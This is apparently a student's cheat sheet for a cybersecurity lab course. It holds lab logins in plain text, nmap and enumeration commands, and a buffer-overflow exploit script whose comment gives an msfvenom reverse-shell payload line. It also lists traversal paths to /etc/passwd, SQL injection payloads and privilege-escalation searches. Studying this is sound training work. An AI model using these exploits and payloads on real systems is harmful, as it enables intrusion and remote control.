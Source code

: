 # Useful Links

## GTFO BINS
https://gtfobins.github.io/

## Security CTFD Server
https://sec.cybbh.io/public/security/latest/index.html

	CTFD Server: http://10.50.20.250:8000	
	User: NIRI-505-M  
	Pass: gVN5chrkxW0bym1 	

## LinOps:
	ssh -X student@10.50.22.235
	password1

 ## Winops:

	xfreerdp /u:student /p:password /dynamic-resolution +clipboard /v:10.50.29.77

 # Host Discovery 

     nmap -v -sT -Pn -T4 -sV 192.168.28.111,120

## Places to check

	ip n
 	ip a / arp -a
  	cat /etc/hosts
   	ps -elf
    	ss -ntlp
     	cron
      /var/tmp
      /tmp
      	
     	
## HTTP Enumeration Script:

    nmap -v -sT -Pn -T4 --script=http-enum.nse 192.168.28.111 -p 80

## Ping Sweep: 

     for i in {1..254}; do (ping -c 1 192.168.28.$i | grep "bytes from" & ); done

     
### secureServerBuffo.py script
	#!/usr/bin/python2.7
	
	import socket
	
	'''
	625011AF
	625011BB
	msfvenom -p windows/meterpreter/reverse_tcp lhost=10.50.X.X lport=4444 -b "\x00" -f python
 	lhost = linux opstation, or whatever host is used to as the attack platform for operation. 
  
    Set multi/handler on msfconsole, & and use script with msfvenom payload 
	'''
	
	
	buf = "TRUN /.:/" #Exploit
	buf += "A" * 2003 #Buffer Offset
	buf += "\xa0\x12\x50\x62"  #JMP ESP
	buf += "\x90" * 15 #NOP SLED
	buf += #SHELLCODE HERE
	s = socket.socket (socket.AF_INET, socket.SOCK_STREAM) # Creates IPv4 socket
	
	s.connect(("0.0.0.0",412XX))    #IP and port to connect to through tunnel
 	print s.recv(1024)   #print response
	s.send(buf)       #sends the variable buf
	print s.recv(1024)   #print response
	s.close()         #close the connection



# Review 

nmap scan:

	nmap -v -sT -Pn -T4 -sV <ip>

http-enum scan

     	nmap -v -sT -Pn -T4 --script=http-enum.nse <ip> -p 80

      Check /img/ for network map

directory traversal:

	Usually found in File to Read search bar. 

	../../../../../etc/passwd
 	../../../../../etc/hosts
  
Fuzzing the pages:

	pick.php?product=7 OR 1=1 ;
 	products7 UNION SELECT 1,2,3

   	<URL>/pick.php?product=7 UNION SELECT table_schema,column_name,table_name FROM information_schema.columns	# golden Statement


Escalating Privs on Linux:

	find binaries with guid bit set. 

 	find / -type f -perm /2 -o -type d -perm /2 2>/dev/null  # Search for any file or directory that is writable by the context "other"

	find / -type f -perm /4000 -ls 2>/dev/null 	# finds commands with the suid bit set. 
 
 	find / -type f -perm /2000 -ls 2>/dev/null 	# finds commands with the guid bit set. 

	find / -type f -writable -o -type d -writable 2>/dev/null # Search for any file or directory that is writable by the current user /tmp 


Finding running service ports if nc doesn't give adequate results (Windows):
	
 	Grab pid # from: 
  		tasklist /sv | findstr <service name>
	run netstat -ano | findstr "pid#"

## Cronttab 
	/var/spool/cron/crontabs
	/etc/crontab



